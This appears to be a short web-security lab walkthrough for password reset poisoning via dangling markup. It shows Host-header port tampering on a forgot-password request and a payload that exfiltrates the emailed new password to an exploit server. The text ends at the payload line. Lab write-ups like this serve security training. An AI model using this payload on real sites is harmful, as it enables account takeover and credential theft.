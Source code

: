 ## Password reset poisoning via dangling markup

Send the POST /forgot-password request to Burp Repeater. Observe that tampering with the domain name in the Host header results in a server error. However, you are able to add an arbitrary, non-numeric port to the Host header and still reach the site as normal. Sending this request will still trigger a password reset email:

```Host: YOUR-LAB-ID.web-security-academy.net:arbitraryport```
In the email client, check the raw version of your emails. Notice that your injected port is reflected inside a link as an unescaped, single-quoted string. This is later followed by the new password.
Send the ```POST /forgot-password``` request again, but this time use the port to break out of the string and inject a dangling-markup payload pointing to your exploit server:

```Host: YOUR-LAB-ID.web-security-academy.net:'<href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?```
